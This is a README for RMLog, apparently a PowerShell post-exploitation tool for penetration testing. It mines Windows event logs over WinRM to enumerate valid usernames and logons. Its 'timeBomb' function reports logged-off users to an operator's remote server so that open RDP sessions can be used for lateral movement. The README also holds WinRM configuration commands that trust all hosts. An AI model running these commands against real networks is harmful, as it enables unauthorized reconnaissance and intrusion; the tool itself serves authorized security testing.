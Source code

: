 # RMLog
RMLog is a post exploitation powershell script which it uses windows event logs to gather information about internal network in a pentration testing engagment. It is not only useful for blue teams but also for red teams because some of its functionalities can be used for lateral movement. You will be able to use RMLog not only on a localhost machine but also in a remote machine using WinRM protocol which is by default enabled in a newly Windows versions. 


## Configuration

In some cases may be you need to configure WinRM protocol to be functional

On client side (attacker):

	winrm quickconfig
	winrm set winrm/config/client '@{TrustedHosts="*"}'
		
On the server side (victim):
		
	Enable-PSRemoting -Force
	winrm quickconfig


## Usage

Use can use the following event types:

1) Information EventID (4624) - An account was successfully logged on
2) Information EventID (4625) - An account failed to log on
3) Information EventID (4728) - A member was added to a security-enabled global group 
4) Information EventID (4732) - A member was added to a security-enabled local group
5) Information EventID (4733) - A member was removed from a security-enabled local group
6) Information EventID (4738) - A user account was changed
7) Information EventID (4647) - User initiated logoff
8) Information EventID (4688) - A new process has been created
9) Information EventID (4776) - The domain controller attempted to validate the credentials for an account


### Examples

The RMLog searching into newest 10(default value) entries into all event types.

```
PS> RMLog -user <username> -pass <password> -ip <remote winrm ip>
PS> RMLog -user <username> -pass <password> -fips <file with ips>
PS> RMLog -ip 127.0.0.1
```

Search into specific eventID using -eventID parameter
```
PS> RMLog -user <username> -pass <password> -ip <remote winrm ip> -eventID <eventID>
PS> RMLog -user <username> -pass <password> -fips <file with ips> -eventID <eventID>
PS> RMLog -ip 127.0.0.1 -eventID <eventID> 
```

![alt text](https://github.com/tasox/LogRM/blob/master/example1_.png)

If you use -newest parameter then you will be able to search into a specific quantity of entries and in many cases your results will be more accurate.

```
PS> RMLog -user <username> -pass <password> -ip <remote winrm ip> -newest <number>
PS> RMLog -user <username> -pass <password> -fips <file with ips> -newest <number>
PS> RMLog -ip 127.0.0.1 -newest <number>
```

![alt text](https://github.com/tasox/LogRM/blob/master/example2_.png)

Providing the -users flag you will get as a result some valid usernames. The RMLog searches into these event IDs 4624,4625,4776 

```
PS> RMLog -user <username> -pass <password> -ip <remote winrm ip> -users
PS> RMLog -user <username> -pass <password> -fips <file with ips> -users
PS> RMLog -ip 127.0.0.1 -users
```

In earlier windows versions for example Windows server 2008, you can not have more than 5 winrm connections with the same host

## Time Bomb 

TimeBomb is useful when you landed on a network host and you want to get a notification when the user is logged of and be able to use an RDP (Remote Desktop) connection. If the user has a remote desktop with another network host and after logging out left the remote desktop open then you could move into the network from an existing forgotten RDP connection. In the background function uses 4624,4647 events and search for current login users. You can create a timer without creating or editing windows schedules and leave the host untouched. You have 3 option when you create a timeBob:

1) now
2) once
3) trigger

Tip1: Give as much as possible amount of entries in -newest parameter. For example: 5000

Tip2: If you want to get notifications only from users who have open RDP connection(s) before logged out then you should uncomment the line 785

The task is going to run now.
```
PS> timeBomb -task now -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
PS> timeBomb -task now -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

#### Example 1 - User is logged on

![alt text](https://github.com/tasox/LogRM/blob/master/Use_is_LoggedOn.png)


#### Example 2 - User is logged of

![alt text](https://github.com/tasox/LogRM/blob/master/User_LoggedOf.png)


The task is going to run once at specific time.
```
PS> timeBomb -task once -at 15:00 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
PS> timeBomb -task once -at 15:00 -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

#### Example 1 - User is logged of

![alt text](https://github.com/tasox/LogRM/blob/master/timBomb_task_once.png)


The task is going to run and stop at specific time.
```
PS> timeBomb -task trigger -at 15:00 -stoptime 16:00 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
PS> timeBomb -task trigger -at 15:00 -stoptime 16:00 -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

## Authors

* TasoX (@taso_x)



